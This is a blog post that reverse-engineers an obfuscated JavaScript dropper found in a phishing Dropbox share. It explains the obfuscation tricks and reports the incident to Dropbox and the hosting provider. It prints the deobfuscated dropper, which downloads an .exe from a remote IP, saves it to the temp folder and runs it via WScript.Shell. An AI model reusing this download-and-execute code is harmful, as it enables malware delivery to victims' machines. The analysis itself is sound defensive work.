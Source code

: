 ```yaml
---
layout: post
title:  "Reverse-engineering an obfuscated JavaScript file and lessons learned"
date:   2016-05-26 17:43:17 +0200
categories: sec
---
```


Yesterday, I got an email from Dropbox saying that somebody had shared their Bitcoin wallet with me.

![](/static/dropbox-btc-backup-js-deobfs.png)

This looks like an accident, right? And too good to be true? Probably is.

Email appeared to really come from Dropbox. The sending IP was allowed by the SPF policies (of course, that's no guarantee, but that's not what I wanted to spend time on).

I got curious and downloaded the file. It had the `.zip` file extension but turned out to actually be a RAR-archive (weird). I unrar-ed it and got two files, one `.js` and one `.exe`. I decided to take a look on the JavaScript file, never having de-obfuscated JavaScript before. 

## Some JavaScript sourcery used. 

The obfuscated code relies on JavaScript idiosyncrasies, most of which were unfamiliar to me, since I'm not a JS developer.

In JavaScript, you can call methods on objects with `instance["method"]()`, allowing you to pass the method name as data. After discovering the encryption-function, this was a common pattern.

{% highlight javascript %}
→ "string".substr(0, 1)
← "s"
→ "string"["substring"](0, 1)
← "s"

← "string".length
← 6
→ "string"["length"]
← 6
{% endhighlight %}

In fairness to JavaScript, most other interpreted languages have this as well (for Python, see `__getattr__`). 

There were a lot of functions with random names (e.g. `bCCg()`) that accepted no arguments but returned one character only. Sometimes they had wrapped the character inside an array and returned a specific element of the array. Example:

{% highlight javascript %}
function bCCg() {
   var ZRZQ = [(9), "f", 4][1];
   return ZRZQ;
}

// Rewritten to
function bCCg() { return "f"; }
{% endhighlight %}

which translates to simply returning returning `"f"`.

Another JS-"feature" that was used to hide data was concatenating (using the `+` operator) a tuple and a string. In JS, of course the last element of the string is concatenated to the string the tuple of concatenated to. Oh, and if it happens to be an integer, it's implicitly parsed to it's string representation. This all makes total sense, right? 

In case it doesn't, here's an example.

{% highlight javascript %}
→ "H" + (7, 6, 5, 3, 1, "i)
← "Hi"
→ "You are number" + ("One", 1)
← "You are number 1"
{% endhighlight %}

And an example usage is the function that started out as 

{% highlight javascript %}
function YWzqkGP() {
    var fTnKjVj = [UHRF() + "h" + prLEsog() + hiz()];
    var YfMUj = [ekYr() + CfK() + "d" + xoHWF() + "A" + "t"];
    var ZQGc = fTnKjVj[0] + YfMUj[0];
    return ZQGc;
}
{% endhighlight %}

After cleaning it up, it looks like this. 

{% highlight javascript %}
function YWzqkGP() {
    var a = "char";
    var b = "C" + (9299, 6662, 8019, 8743, 5179, 5958, 4605, 3648, 7468, 7969, "o") + "d" + "e" + "A" + "t";
    return a + b;
}
{% endhighlight %}

It should be obvious that `YWzqkGP()` is just a very complicated way of writing `"charCodeAt"`.

A lot time is spent maximizing the code length. This example is *AFTER* cleaning up the tricks described above. 

{% highlight javascript %}
function EilkPvf(a) {
    return ["f", "r", "o", "m", "C", "h", "a", "r", "C", "o", "d", "e"][a];
}

function rFeBmU() {
    return EilkPvf(0) + EilkPvf(1) + EilkPvf(2) + EilkPvf(3) + EilkPvf(4) + EilkPvf(5) + EilkPvf(6) + EilkPvf(7) + EilkPvf(8) + EilkPvf(9) + EilkPvf(10) + EilkPvf(11);
}
{% endhighlight %}

We see that all calls to `rFeBmU()` can be replace with `"fromCharCode"`. Smells like code, probably to be injected with the `instanceName["methodName"]` method.

## What is it trying to do? 

This obfuscated javascript features a fairly complicated encryption function, which I have not yet reverse engineered.

Instead, I isolated it and fed the encrypted strings to it to decrypt them. Seemed easier. This line was interesting to me

{% highlight javascript %}
→ pulPiZ("0160500490551240911021201030991051250880790 [CUTOFF] 018029");
← "http://[REDACTED].103/dma_lockoader_Crypt.exe"
{% endhighlight %}

The code is trying to load [WScript](https://msdn.microsoft.com/en-us/library/at5ydy31%28v=vs.84%29.aspx)) via ActiveX, which according to the documentation can "output information to the default output device (either a Windows dialog box or the command console)". 

After de-obfuscating the last big function, this is what I ended up with.

{% highlight javascript %}
function GMU(rtwjdld, kdkndmd) {}
function JqyQ() {
    var wscripteval = eval("WScript");
    var scriptfullname = wscripteval["ScriptFullName"];
    var activex_object = new ActiveXObject("MSXML2.XMLHTTP");
    activex_object["send"]();

    if (typeof WScript["echo"] == "unknown") {
        activex_object.open("GET", "http://[REDACTED].103/dma_lockoader_Crypt.exe", 0);
    }

    var fsobj = new ActiveXObject("Scripting.FileSystemObject");
	if (activex_object.Status == 200) {
        var adodb_stream = new ActiveXObject("ADODB.Stream");
        var path_probably = fsobj.GetSpecialFolder(2) + '\\' + fsobj.GetTempName();
        adodb_stream.Open();
        adodb_stream.Type = 1;
        var wscript_shell = new ActiveXObject("WScript.Shell");
        adodb_stream.Write(activex_object.ResponseBody);

        adodb_stream.Position = 0;
        adodb_stream.SaveToFile(path_probably);             
           
        adodb_stream.Close();
        wscript_shell.run("cmd /c " + path, 0);
    }
    GMU(fsobj, scriptfullname);
}

{% endhighlight %}

They are trying to download a `.exe` file, save it and execute it. How classic. I have on idea what the purpose of the empty `GMU` function is though.

## Aftermath

I contacted Dropbox and the hosting provider in the WHOIS record for the IP address in the URL. 

